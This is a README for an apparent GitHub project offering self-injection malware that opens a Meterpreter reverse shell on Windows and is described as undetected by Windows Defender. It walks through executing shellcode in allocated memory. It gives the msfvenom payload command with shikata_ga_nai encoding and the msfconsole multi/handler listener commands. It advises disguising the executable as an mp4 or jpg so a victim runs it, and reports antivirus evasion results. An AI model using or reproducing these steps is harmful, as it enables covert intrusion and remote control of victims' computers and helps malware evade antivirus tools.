# Self-Injection-Reverse-Shell-Undetected
Self Injection Malware, currently UNDETECTED by windows defender, it creates a reverse shell on a target machine

# 💻 Code
This program injects base64 code into a self created process on the target machine. 

**Step by step guide**:
- First we define the base64 shellcode (make sure architecute is set to x86 and encoding to utf8 for the message box payload;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then the code copies the shellcode into the newly allocated memory;
- It creates a new thread to execute the shellcode, since allocated_mem (which contains the shellcode) is cast to the function pointer type LPTHREAD_START_ROUTINE;

Finally we wait for the created thread (which is running the shellcode) to finish executing before freeing the memory.

---

- **Listener**: <img align="right" src="media/rev3.jpg" width="310" />

On the attacker's machine i used the classic multi handler exploit to run the payload: 

``` msfconsole ```

``` use exploit multi/handler  ```

``` set payload windows/meterpreter/reverse_tcp ```

``` set lhost XXX ```

``` set lport XXX ```

``` exploit ```

---

- **Payload**: <img align="right" src="media/rev2.jpg" width="240" />

The payload is, as i said before, a simple non-encrypted base64 shellcode, you can make it with:

``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX -f c ```.

You can add a simple encryption by adding this ``` -e x86/shikata_ga_nai -f c  ```. 

In the future i will attempt to create my own encryption, since the well known ones are already pretty much detectable. 

---

- **Shell**

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked.
Once the victim runs the exe, a new session will pop up on meterpreter, and u can view it and use it with: <img align="right" src="media/rev1.jpg" width="400" />

``` sessions ```

``` sessions -i 1```

``` shell ```

Here is an example of writing powershell code through meterpreter     --------->

In this example it was a simple message box error, which worked smoothly.

---

# 🛡 Antivirus

<img align="right" src="media/vt1.png" width="350" />

The payload is currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.

Something i don't understand is why Virus Total says that bitdefender won't classify the exe file as malicious, while Microsoft, which should technically be windows defender (?) recognizes the malware.... it should be the exact opposite but idk.

As i said before, you can add a simple shikata ga nai encryption or use online tools like shoggoth or idk. Soon i will create my own simple encryption using python : ) <img align="right" src="media/vt2.png" width="250" />

The only problem is decrypting the base64, ill have to find a way to basically use both c++ and python somehow.... 

Last thing: i run the malware using Termux, an android emulator for linux, because i didnt wanna setup networking stuff for my kali vm, i had issues trying to establish the session


